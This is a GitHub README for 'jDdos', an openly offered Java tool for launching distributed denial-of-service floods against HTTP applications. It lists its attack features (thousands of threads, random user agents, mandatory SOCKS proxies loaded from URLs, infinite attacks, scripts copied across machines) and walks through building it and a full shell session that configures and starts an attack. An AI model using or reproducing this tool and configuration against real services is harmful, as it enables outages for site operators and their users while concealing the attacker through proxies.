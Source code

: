 # jddos
Experimental Java based dDos tool
---

jDdos is dDos script that targets HTTP based applications. This script is written in Java and it's only experimental so **I do not take responsiblities for any usages**, you might use it at your own risks.


## Main features

- HTTP GET and POST (only json) support
- Accepts multiple threads
- Configurable headers
- Automatically adds random user agent to headers
- Accepts and forces you to use SOCKS proxy
- Can read list of SOCKS proxy from url
- Configurable number of threads running the attack.
- Distributed different proxies to between requests. Distributed requests between threads.
- Can run infinite attack until told to stop
- Configurable sleep time between request from each service (Default is random)
- Uses **Spring Shell**, therefore its easy to write an attack script and copy it into several machines


## RUN

First build the project

    mvn clean package -DskipTests

Run it

    cd target/
    ./jdDos

List commands

    help

Commands:

    add-get-request: Adds get request for attack
    add-header: Adds header
    add-post-request: Adds post request for attack
    add-proxy: Adds proxy - example => 127.0.0.1:9050
    clean: Cleans attack settings
    explain: Explains current config
    read-proxy-list: Reads proxy list from url
    running: Makes infinite running threads, default is false
    set-sleep: Sets exact sleep time between infinte loop of each thread. Default = 0 (Random sleep time)
    start: Runs jdDos attack
    stop: Stops jdDos attack
    threads: Sets threads count

Example:

    shell:>add-proxy 127.0.0.1:9050
    2019-03-29 21:20:00.123  INFO 9330 --- [main] gh.sep.attacks.jdDos.Commands            : done
    
    shell:>add-get-request http://myaddress.com/do.php
    2019-03-29 21:20:53.384  INFO 9330 --- [main] gh.sep.attacks.jdDos.Commands            : done
    
    shell:>add-post-request --address http://myaddress.com/post.php --data {\"name\":\"something\"}
    2019-03-29 21:23:10.567  INFO 9330 --- [main] gh.sep.attacks.jdDos.Commands            : done
    
    shell:>add-header --key Cookie --value "my session"
    2019-03-29 21:23:45.545  INFO 9330 --- [main] gh.sep.attacks.jdDos.Commands            : done
    
    shell:>threads 1200
    2019-03-29 21:25:21.474  INFO 9330 --- [main] gh.sep.attacks.jdDos.Commands            : done
    
    shell:>explain
    Addresses: 
    600 threads will make request to http://myaddress.com/do.php
    600 threads will make request to http://myaddress.com/post.php
    Proxies: 
    127.0.0.1:9050
    Infinite requests: true
    Sleep time is infinite
    Total threads count: 1200
    
    shell:>start
    2019-03-29 21:26:15.858  INFO 9330 --- [main] o.s.s.concurrent.ThreadPoolTaskExecutor  : Initializing ExecutorService
    2019-03-29 21:26:15.858  INFO 9330 --- [main] o.s.s.concurrent.ThreadPoolTaskExecutor  : Initializing ExecutorService
    2019-03-29 21:26:15.930  INFO 9330 --- [main] o.s.s.concurrent.ThreadPoolTaskExecutor  : Initializing ExecutorService
    2019-03-29 21:26:15.930  INFO 9330 --- [main] o.s.s.concurrent.ThreadPoolTaskExecutor  : Initializing ExecutorService
    2019-03-29 21:26:15.980  INFO 9330 --- [main] gh.sep.attacks.jdDos.Commands            : Attack started

To skip writing all commands each time, create a file named `scripts.txt` for example and enter all the commands in right order.
Then start `jdDos` and enter:

    script --file /address/to/scripts.txt

Your attack configuration will load into the application.

